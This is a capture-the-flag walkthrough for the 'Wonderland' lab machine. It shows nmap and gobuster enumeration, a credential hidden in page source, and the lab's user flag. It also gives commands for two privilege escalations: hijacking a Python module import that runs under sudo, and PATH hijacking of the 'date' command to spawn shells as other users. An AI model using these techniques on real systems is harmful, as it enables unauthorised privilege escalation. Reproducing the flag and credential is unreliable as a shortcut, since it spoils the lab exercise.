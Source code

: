 # Wonderland



1. Enumerate with nmap
```
root@ip-10-10-15-9:~# sudo nmap -sS -A -script=vuln 10.10.149.16

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-05 04:23 GMT
Nmap scan report for ip-10-10-149-16.eu-west-1.compute.internal (10.10.149.16)
Host is up (0.00047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /r/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 02:49:6E:A7:5C:17 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=1/5%OT=22%CT=1%CU=40034%PV=Y%DS=1%DC=D%G=Y%M=02496E%TM
OS:=61D51F7D%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)
OS:SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M230
OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
OS:IN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F
OS:507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms ip-10-10-149-16.eu-west-1.compute.internal (10.10.149.16)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 547.47 seconds
```

2. We see tht a web server is running on port 80, so run gobuster with the big wordlist
```
root@ip-10-10-15-9:~/Downloads/Wonderland# gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.149.16/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.149.16/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/01/05 05:09:22 Starting gobuster
===============================================================
/img (Status: 301)
/poem (Status: 301)
/r (Status: 301)
===============================================================
2022/01/05 05:09:24 Finished
===============================================================
```

3. Let's visit the webpage. All it says is `Follow the White Rabbit`, and contains a picture of the white rabbit from the novel

4. Visit each of the routes found with gobuster and check the source code and the Network and Cookies tabs in Inspect Element. Nothing seems to be hidden in the source code, and nothing special is seen in Network or Cookies. Now take a look at the actual contents of the directories. `/poem` contains a poem called `The Jabberwocky`. A quick search reveals that it's a nonsense poem that was included in the novel `Through the Looking-Glass`. This doesn't seem to help us at the moment, so let's go to the next route. `/img` contains 3 images: `alice_door.jpg`, `alice_door.png`, and `white_rabbit_1.jpg`. Note: from the source code of the index page we see that `white_rabbit_1.jpg` was the picture used to show the white rabbit. Download all of these images and analyze the metadata with exiftool `exiftool <image>`. Nothing seems out of place. Now try using steghide `steghide extract -sf <image>` on them to see if there's any files hidden inside. The 2 `alice_door` images don't seem to have anything, but `white_rabbit_1.jpg` is not password protected and contains `hint.txt`, which contains the text `follow the r a b b i t`. This doesn't mean anything to us at the moment. Lastly, we can use stegsolve to try to analyze the pictures, but we find nothing. Moving on to `/r`, we find is `Keep Going. "Would you tell me, please, which way I ought to go from here?"`. This doesn't tell us much but from the it's probably not a coincidence that the route starts with an `r`, just like the work `rabbit`. Additionally, the hint told us to follow the `r a b b i t`. Could it be referring to the URL, and specifically the route `/r`? There can't be any spaces in URLs, so we can try using `/r_a_b_b_i_t`, but it doesn't work. We can also try using `/`. So if we try `/r/a`, we find that we're directed to another page. As we keep going through the letters in `rabbit`, `/r/a/b/b/i/t` we are presented with quotes from the novel. Make sure to view the source code and inspect element to see if there are any clues hidden. When we get to the `t`, we find that we're instructed to `Open the door and enter wonderland`. Looking through the source code for this page we find a hidden paragraph `<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>` that look like some kind of username and password combination. We know from the nmap scan that ssh is open, and using `ssh alice@<ip address>` with the password successfuly logs us into the machine as alice
```
Open the door and enter wonderland

"Oh, you're sure to do that," said the Cat, "if you only walk long enough."

Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"

"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving the other paw, "lives a March Hare. Visit either you like: they're both mad."
```

5. Once we land in alice's home directory we find a `root.txt` and `walrus_and_the_carpenter.py`. Because we finally have access to the machine, we should be able to find user.txt, however we don't see it anywhere here. The hint says `Everything is upside down here.`. Maybe the contents of user.txt are in root.txt? Try it and we find that we don't have permissions to read root.txt. Maybe the user.txt is in the `/root` directory? If we try to print out the contents of `/root`, we get a permission denied error, but if we try to print user.txt - assuming it's in the `/root` directory - `cat /root/user.txt` we get `thm{"Curiouser and curiouser!"}`

6. Now we want to escalate privileges. We see that there's 4 folders in the `/home` directory: alice, hatter, rabbit, and tryhackme, but we can't access any other than alice. Let's use `sudo -l` with alice's password to see if alice has any special permissions. We find that alice can run this exact command `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as rabbit. Looking at the contents of `walrus_and_carpenter.py`, we see that it prints out random lines from a poem. The most important part of the program is the `import random`. What if we make the program import a file of our choosing instead of the module? Create a new file inside the same directory named `random.py` and insert `import pty; pty.spawn("/bin/bash")` into it, which will create a new shell for us as rabbit if it's run with rabbit's permissions. Since we can run the `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` command as rabbit, let's do so with `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, and we should now be logged in as rabbit
```
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

7. Now we have access to rabbit's home directory, and we see that it has one file called `teaParty`. We can try using `sudo -l`, but we don't have rabbit's password so we can't view any special permissions. Run `file teaParty` and we find that it's an executable file, so run it and we get some output. If we print out the contents with `cat teaParty` we see that the date is being printed out dynamically using the date program `The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)`. Since the absolute path of the date command isn't being used to reference the program (unlike echo, which is being called with `/bin/echo`), we can change the PATH variable and write our own program called date, which will then execute code of our choosing. So let's append our current directory to the PATH with `export PATH=/home/rabbit:$PATH`. This appends our directory to the beginning of the PATH variable, so the first place bash will check for the date program is our directory. Now let's create a file named `date`, enter a shebang `#!/bin/bash` and use the same python code we used last time `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Finally, make the date file executable with `chmod +x date`. You can now check if your date is detected in the PATH with `which date`. If this returns `/home/rabbit/date`, you've successfully changed the path. Now if we run `teaParty`, our date file will be run and it will create a new shell as the hatter
```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 08 Jan 2022 21:46:21 +0000
Ask very nicely, and I will give you some tea while you wait for him
```
